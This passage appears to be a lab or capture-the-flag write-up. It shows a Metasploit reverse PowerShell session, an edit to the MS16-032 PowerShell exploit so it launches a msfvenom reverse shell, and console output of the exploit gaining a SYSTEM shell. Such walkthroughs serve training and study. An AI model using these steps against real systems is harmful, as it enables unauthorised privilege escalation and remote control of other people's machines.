 On the Reverse Powershell Tab, I got a powershell session.

```
msf exploit(handler) > [*] Powershell session session 2 opened (10.10.14.116:5555 -> 10.10.10.8:49251) at 2017-10-14 10:22:40 -0400
```

So it’s time to modify the ms16-032 script to work.

```
# LOGON_NETCREDENTIALS_ONLY / CREATE_SUSPENDED
        $CallResult = [Advapi32]::CreateProcessWithLogonW(
            "user", "domain", "pass",
            0x00000002, "C:\Windows\System32\cmd.exe", "", #change this to your reverse shell.
            0x00000004, $null, $GetCurrentPath,
            [ref]$StartupInfo, [ref]$ProcessInfo)
```

I needed to create another reverse shell using msfvenom and change a few line of codes in the ms16-032 script to execute the reverse shell as root.

```
# LOGON_NETCREDENTIALS_ONLY / CREATE_SUSPENDED
        $CallResult = [Advapi32]::CreateProcessWithLogonW(
            "user", "domain", "pass",
            0x00000002, "C:\Users\kostas\Desktop\yourrevshell.exe", "", #changed
            0x00000004, $null, $GetCurrentPath,
            [ref]$StartupInfo, [ref]$ProcessInfo)
```

I needed to open another handler again on metasploit to catch the reverse shell and to have a root access on the system.

And after modifying the script and creating the handler, it’s time to execute the exploit using the interactive powershell.

**Reverse Powershell Tab**

```
PS C:\Users\kostas\Desktop> ./MS16-032.ps1
PS C:\Users\kostas\Desktop> Import-Module ./MS16-032.ps1
PS C:\Users\kostas\Desktop> Invoke-MS16-032
__ __ ___ ___ ___ ___ ___ ___ 
| V | _|_ | | _|___| |_ |_ |
| |_ |_| |_| . |___| | |_ | _|
|_|_|_|___|_____|___| |___|___|___|
 
[by b33f -> @FuzzySec]

[?] Operating system core count: 2
[>] Duplicating CreateProcessWithLogonW handle
[?] Done, using thread handle: 2172

[*] Sniffing out privileged impersonation token..

[?] Thread belongs to: svchost
[+] Thread suspended
[>] Wiping current impersonation token
[>] Building SYSTEM impersonation token
[?] Success, open SYSTEM token handle: 2168
[+] Resuming thread..

[*] Sniffing out SYSTEM shell..

[>] Duplicating SYSTEM token
[>] Starting token race
[>] Starting process race
[!] Holy handle leak Batman, we have a SYSTEM shell!!

```